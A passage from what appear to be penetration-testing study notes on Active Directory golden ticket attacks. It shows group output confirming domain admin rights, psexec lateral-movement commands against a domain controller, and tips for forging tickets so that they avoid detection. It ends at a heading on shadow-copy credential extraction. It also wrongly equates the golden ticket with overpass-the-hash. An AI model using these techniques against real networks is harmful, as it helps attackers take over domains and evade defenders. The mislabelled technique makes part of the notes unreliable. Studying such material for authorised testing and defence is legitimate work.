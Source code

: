 ```cmd
CORP\Group Policy Creator Owners            Group            S-1-5-21-1987370270-658905905-1781884369-520 Mandatory group, Enabled by default, Enabled group
CORP\Schema Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-518 Mandatory group, Enabled by default, Enabled group
CORP\Enterprise Admins                      Group            S-1-5-21-1987370270-658905905-1781884369-519 Mandatory group, Enabled by default, Enabled group
CORP\Denied RODC Password Replication Group Alias            S-1-5-21-1987370270-658905905-1781884369-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level        Label            S-1-16-12288                                                                        
```

**Privileged Group Memberships Confirmed:**
- **Domain Admins (512):** Full domain administrative access
- **Schema Admins (518):** Schema modification privileges
- **Enterprise Admins (519):** Forest-wide administrative access
- **Group Policy Creator Owners (520):** Group Policy management rights

### Authentication Protocol Considerations

**Kerberos vs NTLM Authentication:**
```cmd
# Golden ticket works with Kerberos (hostname)
psexec.exe \\DC1 cmd.exe  # SUCCESS

# NTLM authentication still blocked (IP address)
psexec.exe \\192.168.50.70 cmd.exe  # FAILURE
```

**Protocol Selection Logic:**
- **Hostname Usage:** Forces Kerberos authentication (golden ticket works)
- **IP Address Usage:** Forces NTLM authentication (golden ticket ineffective)
- **Overpass-the-Hash:** Golden ticket technique represents overpass-the-hash attack
- **Authentication Bypass:** Leverages forged Kerberos tickets instead of NTLM hashes

### Golden Ticket Operational Security

**Stealth Considerations:**
- **Existing Account Requirement:** Post-July 2022 Microsoft update requires valid account names
- **Account Selection:** Use low-privilege account names to avoid suspicion
- **Ticket Lifetime:** Default 10-year lifetime may be excessive and suspicious
- **Group Membership:** Default high-privilege groups may trigger alerts

**Detection Avoidance:**
- **Custom Lifetimes:** Set realistic ticket expiration times
- **Selective Groups:** Include only necessary group memberships
- **Account Legitimacy:** Use accounts that normally have required access
- **Usage Patterns:** Avoid suspicious authentication patterns

---

## Shadow Copies for Credential Extraction
